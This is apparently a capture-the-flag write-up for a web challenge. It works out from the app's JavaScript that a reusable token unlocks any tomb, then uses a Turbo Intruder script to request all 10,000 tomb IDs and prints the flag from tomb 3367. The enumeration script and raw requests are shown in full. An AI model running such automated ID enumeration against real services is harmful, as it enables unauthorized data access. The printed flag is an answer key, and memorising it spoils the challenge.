

# Intro



# Information gathering
Start by accessing the application. Here a small introduction is displayed telling the user that a "ancient" token is needed to open the tombs and the key to escape (guessing the flag) is in one of the tombs. This is also shown when clicking a tomb button, a error message is displayed telling the user a key is needed to open the tomb.  


There are 10000 tomb buttons in the app. And clicking through some random buttons the same error message is shown to the user. 


Start by looking through the source code to see if any hints of how this "token"  could be obtained. And this JavaScript function could be found in the sources for the application.
```javascript
// Function to get a new token from the API
    function getNewToken() {
        fetch('/api/token', {
            method: 'POST',
        })
        .then(response => response.json())
        .then(data => {
            if (data.token) {
                currentToken = data.token;
                tokenInput.value = currentToken;
                localStorage.setItem('tombToken', currentToken);
                showResponse({ message: 'New token received', token: currentToken });
            } else {
                showResponse({ error: 'Failed to get token', details: data });
            }
        })
        .catch(error => {
            showResponse({ error: 'Failed to get token', details: error.message });
        });
    }
```
The comment and function tells us this is used to get a new token from the API. This tells that to get a token:
- The endpoint to use ```/api/token```.
- The request should be a ```POST``` request.
- No special body or headers is needed in the request.

Another function is also found in the sources. This function is tells how to "explore a tomb". 
```javascript
// Function to explore a tomb by ID
    function exploreTomb(tombId) {
        // Highlight the selected tomb with null check
        document.querySelectorAll('.tomb-cell.clicked').forEach(cell => {
            cell.classList.remove('clicked');
        });
        
        const selectedCell = document.querySelector(`.tomb-cell[data-id="${tombId}"]`);
        if (selectedCell) {
            selectedCell.classList.add('clicked');
        } else {
            console.error(`Tomb cell with ID ${tombId} not found`);
        }
        
        // Make API request to get tomb content
        fetch(`/api/tomb/${tombId}?token=${encodeURIComponent(currentToken)}`)
        .then(response => {
            if (!response.ok) {
                throw new Error(`HTTP error! Status: ${response.status}`);
            }
            return response.json();
        })
        .then(data => {
            showResponse(data);
        })
        .catch(error => {
            showResponse({ error: 'Failed to explore tomb', details: error.message });
            console.error('API error:', error);
        });
    }
```
The ```fetch``` part tells how the request to explore a tomb should be formatted:
- The endpoint to use ```/api/tomb/${tombId}?token=${encodeURIComponent(currentToken)}```.
- The parameters ```tombId``` and ```currentToken``` is needed in the URI.
- The request should be a ```GET``` request (default for ```fetch``` is ```GET```).

So the plan is to get a token by making a ```POST``` request to ```/api/token``` to get a token to be use to open the tombs. The token is sent as the ```currentToken``` parameter when opening the tomb with a ```GET``` request to ```/api/tomb/${tombId}``` endpoint. The ```tombId``` is the number that is on the tomb-button, show in the request when clicking the button. Example: Clicking the tomb-button 311 generates this request.
```http
GET /api/tomb/311?token=none HTTP/1.1
Host: 134.122.88.8:5002
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
[...]
```

Testing the intended "flow" of the application:
Request:  
```http
```http
POST /api/token HTTP/1.1
Host: 134.122.88.8:5002
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Referer: http://134.122.88.8:5002/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
Response:  
```http
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.9.21
Date: Fri, 02 May 2025 13:50:43 GMT
Content-Type: application/json
Content-Length: 26
Connection: close

{"token":"key-174619384"}
```

Open a tomb request with the token:  
```http
GET /api/tomb/1?token=key-174619384 HTTP/1.1
Host: 134.122.88.8:5002
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Referer: http://134.122.88.8:5002/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

Response:
```http
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.9.21
Date: Fri, 02 May 2025 13:51:02 GMT
Content-Type: application/json
Content-Length: 44
Connection: close

{"content":"Tomb 1 is empty!","tombId":"1"}
```

Testing another tomb with the same token:
```http
GET /api/tomb/123?token=key-174619384 HTTP/1.1
Host: 134.122.88.8:5002
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Referer: http://134.122.88.8:5002/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

Response:
```http
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.9.21
Date: Fri, 02 May 2025 13:51:13 GMT
Content-Type: application/json
Content-Length: 48
Connection: close

{"content":"Tomb 123 is empty!","tombId":"123"}
```

This shows that the token is reusable, no new token is needed to open multiple tombs.
# Attack
To go through all 10000 tombs a tool like Turbo Intruder in BurpSuite could be used to automate the request, but first a token is needed. 

Using Turbo Intruder in BurpSuite. Using the ```examples/default.py``` as starting point the script loop through numbers from 1 to 10000 making a request replacing the ```%s``` parameter in the request with the current number in the loop. 
GET request:
```http
GET /api/tomb/%s?token=key-174619384 HTTP/1.1
Host: 134.122.88.8:5002
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Referer: http://134.122.88.8:5002/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
Python script:
```python

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False,
                           engine=Engine.THREADED
                           )

    for x in range(1, 10001):
        engine.queue(target.req, x)


def handleResponse(req, interesting):
    print(req)
    table.add(req)
```

Running the script in Turbo Intruder.
One request in the list of results stands out from the others in length.


The tomb 3367 responds with the flag:
```http
GET /api/tomb/3367?token=key-174619384 HTTP/1.1
Host: 134.122.88.8:5002
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Referer: http://134.122.88.8:5002/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

Response:
```http
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.9.21
Date: Fri, 02 May 2025 13:51:59 GMT
Content-Type: application/json
Content-Length: 61
Connection: close

{"content":"flag O24{Lar4_w0Uld_b3_PRouD!}","tombId":"3367"}
```
